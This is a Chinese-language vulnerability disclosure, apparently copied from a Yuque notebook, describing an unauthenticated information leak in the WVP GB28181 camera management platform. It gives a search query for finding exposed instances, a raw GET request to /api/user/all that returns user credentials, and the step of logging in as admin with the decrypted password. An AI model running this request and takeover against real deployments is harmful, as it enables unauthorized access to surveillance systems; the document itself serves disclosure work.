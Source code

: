 # GB28181摄像头管理平台WVP视频平台存在敏感信息泄露漏洞

# 一、产品简介
 GB28181是中国国家标准中关于IP视频监控设备的标准之一。它规定了视频监控设备之间的通信协议和数据格式，以便实现设备之间的互联互通。GB28181摄像头管理平台则是用于管理和监控这些符合GB28181标准的摄像头设备的软件平台，GB28181摄像头管理平台在安防领域具有广泛的应用，可以用于监控各种场所，如公共交通、城市道路、企业园区等，提高了监控系统的整体效率和管理水平。GB28181摄像头管理平台api接口处存在未授权漏洞,恶意攻击者可以通过此漏洞获取到登录信息，从而登录到后台，使服务器处于不安全的状态  ![1715270773197-7403b852-9ccb-443d-aa6e-ec05f84c76bb.png](./img/vhv8DMGLU3HVem8R/1715270773197-7403b852-9ccb-443d-aa6e-ec05f84c76bb-479686.png)

# <font style="color:rgb(0, 0, 0);">二、影响版本</font>
 WVP视频平台

# <font style="color:rgb(0, 0, 0);">三、资产测绘</font>
```plain
body="国标28181"
```

![1715269904082-a474df98-5550-4823-95dc-5ce4290ea873.png](./img/vhv8DMGLU3HVem8R/1715269904082-a474df98-5550-4823-95dc-5ce4290ea873-791258.png)

## 四、漏洞复现
```http
GET /api/user/all HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36
Content-Length: 0
```

![1715269724994-d04cb343-8099-4450-8a81-ffe1ee1b9ea6.png](./img/vhv8DMGLU3HVem8R/1715269724994-d04cb343-8099-4450-8a81-ffe1ee1b9ea6-323150.png)使用admin/解密后的密码登录系统 ![1715269814518-8be4d2fb-dd7a-4bab-8183-0fda67f3e1ae.png](./img/vhv8DMGLU3HVem8R/1715269814518-8be4d2fb-dd7a-4bab-8183-0fda67f3e1ae-187789.png)



> 更新: 2024-06-11 10:36:45  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/gqt9d1wy8zy3r8oi>